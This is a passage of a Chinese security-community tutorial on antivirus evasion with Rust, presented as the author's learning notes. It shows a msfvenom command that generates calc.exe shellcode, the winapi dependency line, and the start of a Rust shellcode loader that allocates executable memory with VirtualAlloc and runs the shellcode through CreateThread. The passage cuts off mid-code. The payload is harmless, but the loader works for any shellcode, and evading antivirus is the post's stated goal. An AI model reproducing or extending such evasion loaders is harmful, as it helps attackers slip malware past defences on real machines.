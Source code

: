 

# Rust免杀 - Shellcode加载与混淆 - 先知社区

Rust免杀 - Shellcode加载与混淆

* * *

## 前言

这是半年前我学习Rust和免杀时的一些记录，最近打开知识库看到了这篇半年前的笔记，并且发现我常逛的安全社区都比较少有人分享Rust以及Rust免杀的帖子，于是想着将这篇笔记分享出来供大家参考和指正。由于我写这篇文章时也刚刚开始接触Rust，所以文中所涉及的知识和代码都有可能出现错误，所以再次说明这篇文章仅供参考并希望大家指正。

## Shellcode加载方式

本文的主要目的是分享Rust对shellcode的加密混淆方式，所以对于shellcode加载只介绍两种基本的方式，可能在后续的文章中会对加载方式进行更多分享。

### 调用WinAPI

跟其他语言的shellcode加载器一样，要实现更多的shellcode加载方式，需要调用WinAPI。  
执行shellcode的一般流程：

```plain
1. 创建或获取一段可读写执行的内存空间
2. 将shellcode移入这块内存空间
3. 利用各种方式将程序执行的流程指向这块内存空间
```

Rust调用WinAPI需要先引入依赖，`Cargo`是Rust的一个包管理工具，要引入`winapi`依赖需要在`Cargo.toml`添加：

```plain
winapi = {version="0.3.9",features=["winuser","processthreadsapi","memoryapi","errhandlingapi","synchapi"]}
```

这里以加载msf生成的弹计算器的shellcode为例，先使用`msfvenom`生成一段raw格式的shellcode，保存到`calc.bin`文件中，并复制到Rust的项目目录下。

```plain
msfvenom -p windows/x64/exec cmd=calc.exe -f raw -o calc.bin
```

在Rust中，可以使用`include_bytes!`宏将静态文件在编译时包含进程序中。  
下面通过调用`VirtualAlloc`申请一段内存，并设置为`PAGE_EXECUTE_READWRITE`权限，具体参数建议查阅微软WinAPI文档。然后通过`std::ptr::copy`将shellcode移动到内存中，接着通过`CreateThread`创建线程，`WaitForSingleObject`等待线程结束。  
参考：[VirtualAlloc function](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc), [CreateThread function](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread), [WaitForSingleObject function](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)

```plain
use std::mem::transmute;
use winapi::um::errhandlingapi::GetLastError;
use winapi::um::memoryapi::VirtualAlloc;
use winapi::um::processthreadsapi::CreateThread;
use winapi::um::synchapi::WaitForSingleObject;

fn main() {
    let buffer = include_bytes!("..\\calc.bin");

    unsafe {
        let ptr = VirtualAlloc(std::ptr::null_mut(), buffer.len(), 0x00001000, 0x40);

        if GetLastError() == 0 {
            std::ptr::copy(buffer.as_ptr() as *const u8, ptr as *mut u8, buffer.len());

            let mut threadid = 0;
            let threadhandle = CreateThread(
                std::ptr::null_mut(),
```